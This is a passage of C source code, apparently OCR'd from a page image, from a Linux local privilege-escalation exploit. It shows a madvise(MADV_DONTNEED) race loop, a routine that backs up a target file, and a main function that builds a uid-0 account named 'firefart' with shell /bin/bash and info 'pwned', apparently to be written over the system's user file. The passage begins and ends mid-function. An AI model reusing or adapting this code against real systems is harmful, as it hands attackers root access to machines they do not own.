 ```clike=
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
```